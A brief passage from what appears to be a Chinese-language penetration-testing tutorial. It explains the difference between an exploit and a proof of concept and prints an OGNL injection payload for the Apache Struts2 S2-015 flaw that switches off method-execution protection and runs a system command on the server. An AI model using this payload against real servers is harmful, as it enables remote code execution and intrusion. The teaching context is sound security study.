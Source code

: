 ![image-20230413145232479](assets/rMNHGsy2nfIw1tD.png)

#### 3.3.6.4. 寻找exp

这里说一下exp:意思就是利用代码，而poc:意思就是验证代码

像这个漏洞可以在网上直接找相关的exp进行操作。

例如这里写入exp的方式利用S2-015漏洞。

```
${#context[‘xwork.MethodAccessor.denyMethodExecution’]=false,#m=#_memberAccess.getClass().getDeclaredField(‘allowStaticMethodAccess’),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(‘ls’).getInputStream()),#q}.action
```
